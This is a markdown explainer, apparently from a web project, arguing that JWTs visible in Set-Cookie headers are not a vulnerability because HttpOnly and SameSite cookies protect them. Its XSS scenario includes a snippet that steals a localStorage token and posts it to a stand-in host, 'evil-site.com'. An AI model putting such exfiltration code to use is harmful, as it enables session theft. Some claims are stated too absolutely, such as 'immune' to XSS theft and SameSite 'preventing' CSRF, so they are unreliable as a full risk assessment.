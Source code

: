 # Security Analysis: JWT Tokens and Set-Cookie Headers

## The Question: Are Set-Cookie Headers a Security Risk?

You observed that JWT tokens are visible in the Network tab under response headers when cookies are set. This is a valid security concern, but let me explain why this is **expected behavior** and how our implementation is actually secure.

## Understanding Set-Cookie Headers

### What You're Seeing
When you make a login request, you see something like this in the Network tab:
```
Set-Cookie: access_token=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9...; HttpOnly; SameSite=lax; Path=/
Set-Cookie: refresh_token=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9...; HttpOnly; SameSite=lax; Path=/
```

### Why This Happens
- The server MUST send the `Set-Cookie` header to instruct the browser to store the cookie
- This is the standard HTTP mechanism for setting cookies
- The browser's Network tab shows ALL HTTP headers for debugging purposes

## Security Analysis

### ❌ What Would Be a Real Vulnerability
1. **Tokens in Response Body**: If tokens were in the JSON response body
2. **Tokens in localStorage**: Accessible to JavaScript and XSS attacks
3. **Tokens in sessionStorage**: Also accessible to JavaScript
4. **Tokens in URL parameters**: Logged in server logs and browser history

### ✅ Why Our Implementation Is Secure

#### 1. HttpOnly Cookies
```javascript
// ❌ VULNERABLE: JavaScript can access this
localStorage.setItem('token', 'jwt_token_here');
const token = localStorage.getItem('token'); // XSS can steal this

// ✅ SECURE: JavaScript CANNOT access httpOnly cookies
// The browser handles these automatically
document.cookie; // Will NOT show httpOnly cookies
```

#### 2. Automatic Browser Management
- Browser includes cookies automatically in requests
- No JavaScript code needed to manage tokens
- Immune to XSS token theft

#### 3. SameSite Protection
```http
Set-Cookie: access_token=...; HttpOnly; SameSite=lax
```
- Prevents CSRF attacks
- Cookie only sent to same-site requests

## Attack Scenarios Analysis

### Scenario 1: XSS Attack
```javascript
// ❌ With localStorage (VULNERABLE):
// Malicious script can steal tokens
const stolenToken = localStorage.getItem('auth_token');
fetch('https://evil-site.com/steal', {
  method: 'POST',
  body: JSON.stringify({ token: stolenToken })
});

// ✅ With httpOnly cookies (SECURE):
// Malicious script CANNOT access the tokens
document.cookie; // Returns empty or non-httpOnly cookies only
// No way for JavaScript to extract the JWT tokens
```

### Scenario 2: Network Tab Access
**Your Concern**: Tokens visible in Network tab

**Reality Check**:
- If an attacker has access to your DevTools, they already have access to your computer
- Local computer access = game over for any web security
- This is equivalent to someone having physical access to your unlocked computer
- Network tab visibility is a debugging feature, not a security vulnerability

### Scenario 3: Man-in-the-Middle (MITM)
- **Problem**: HTTPS prevents MITM attacks
- **Our Setting**: `COOKIE_SECURE = False` (development only)
- **Production**: Must set `COOKIE_SECURE = True` with HTTPS

## Security Best Practices Implemented

### 1. Token Separation
- **Access Token**: Short-lived (15 minutes)
- **Refresh Token**: Longer-lived (30 days)
- **Benefit**: Limits damage if token is compromised

### 2. Secure Cookie Attributes
```python
response.set_cookie(
    key="access_token",
    value=access_token,
    httponly=True,      # Prevents JavaScript access
    secure=COOKIE_SECURE,   # HTTPS only (production)
    samesite=COOKIE_SAMESITE,  # CSRF protection
    path=COOKIE_PATH    # Scope limitation
)
```

### 3. No Tokens in Response Body
```json
// ❌ VULNERABLE Response:
{
  "access_token": "eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9...",
  "refresh_token": "eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9...",
  "token_type": "bearer"
}

// ✅ SECURE Response:
{
  "success": true,
  "message": "Login successful",
  "user": {
    "username": "admin",
    "email": "admin@example.com"
  }
}
```

## Production Security Checklist

### Environment Variables
```bash
# Use environment variables for secrets
export SECRET_KEY="your-super-secret-key-here"
export REFRESH_SECRET_KEY="another-super-secret-key"
export COOKIE_SECURE="true"
export COOKIE_DOMAIN="yourdomain.com"
```

### HTTPS Configuration
```python
# Production settings
COOKIE_SECURE = True    # Require HTTPS
COOKIE_SAMESITE = "strict"  # Strictest CSRF protection
```

### CORS Configuration
```python
app.add_middleware(
    CORSMiddleware,
    allow_origins=["https://yourdomain.com"],  # Specific domain only
    allow_credentials=True,
    allow_methods=["GET", "POST"],
    allow_headers=["*"],
)
```

## Conclusion

### The Set-Cookie Headers Are NOT a Vulnerability Because:

1. **Expected Behavior**: This is how cookies are supposed to work
2. **Browser Security**: HttpOnly cookies cannot be accessed by JavaScript
3. **Automatic Management**: Browser handles cookie security automatically
4. **Physical Access**: If someone can see your Network tab, they have bigger problems

### Real Security Threats to Watch For:
1. **XSS Vulnerabilities**: Use Content Security Policy (CSP)
2. **CSRF Attacks**: SameSite cookies prevent this
3. **HTTPS**: Always use in production
4. **Secret Management**: Never commit secrets to code

### Our Implementation Status: ✅ SECURE
- HttpOnly cookies prevent XSS token theft
- SameSite prevents CSRF attacks
- No tokens in response body
- Automatic browser security management
- Short-lived access tokens
- Proper token refresh mechanism

The visibility in Network tab is a debugging feature for developers, not a security vulnerability. An attacker who can access your browser's DevTools already has access to your computer and can do much worse things than steal cookies.
